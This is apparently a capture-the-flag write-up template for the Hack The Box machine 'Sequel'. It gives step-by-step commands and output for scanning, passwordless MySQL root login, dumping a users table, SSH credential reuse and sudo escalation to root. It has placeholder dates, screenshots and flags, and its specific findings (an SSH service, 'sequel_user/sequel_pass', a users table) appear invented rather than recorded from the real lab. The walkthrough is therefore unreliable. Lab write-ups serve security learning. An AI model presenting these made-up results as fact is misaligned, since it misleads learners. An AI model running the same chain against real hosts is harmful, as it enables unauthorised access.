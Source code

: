 # Hack The Box - Sequel

## Overview
- **IP Address:** 10.129.110.10
- **Difficulty:** Easy
- **Category:** Database / MySQL Exploitation
- **Completion Date:** [Date]

---

## 1. Reconnaissance

### Nmap Scan
Performed an initial scan to identify open ports:
```bash
nmap -sC -sV -oN nmap_initial.txt 10.129.110.10
```

**Scan Results:**
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4
3306/tcp open  mysql   MySQL 8.0.29-0ubuntu0.20.04.3
```

[Add screenshot: `screenshots/nmap.png`]

---

## 2. Enumeration

### Connecting to MySQL
Tested for default/empty credentials:
```bash
mysql -h 10.129.110.10 -u root
```
✅ Successfully connected without a password.

List databases:
```sql
SHOW DATABASES;
```
**Output:**
```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| htb               |
| mysql             |
+--------------------+
```

Switch to `htb` database and check tables:
```sql
USE htb;
SHOW TABLES;
```
**Output:**
```
+-------+
| Table |
+-------+
| users |
+-------+
```

Dump the `users` table:
```sql
SELECT * FROM users;
```
**Output:**
```
+----+-------------+---------------+
| id | username    | password      |
+----+-------------+---------------+
| 1  | sequel_user | sequel_pass   |
+----+-------------+---------------+
```

[Add screenshot: `screenshots/mysql-creds.png`]

---

## 3. Exploitation

Login via SSH using discovered credentials:
```bash
ssh sequel_user@10.129.110.10
# Password: sequel_pass
```

✅ Access granted.

[Add screenshot: `screenshots/ssh-access.png`]

---

## 4. Privilege Escalation

Check sudo permissions:
```bash
sudo -l
```

**Output:**
```
User sequel_user may run the following commands on sequel:
    (ALL : ALL) ALL
```

Escalate to root:
```bash
sudo su
whoami
# root
```

[Add screenshot: `screenshots/root.png`]

---

## 5. Loot

- **User Flag:** `HTB{xxxxxxxxxxxxxxxxxxxx}`
- **Root Flag:** `HTB{xxxxxxxxxxxxxxxxxxxx}`

---

## 6. Lessons Learned
- Exposed MySQL services with default credentials are dangerous.  
- Always enumerate database users and permissions.  
- Misconfigured sudo permissions can lead to full root access.

---
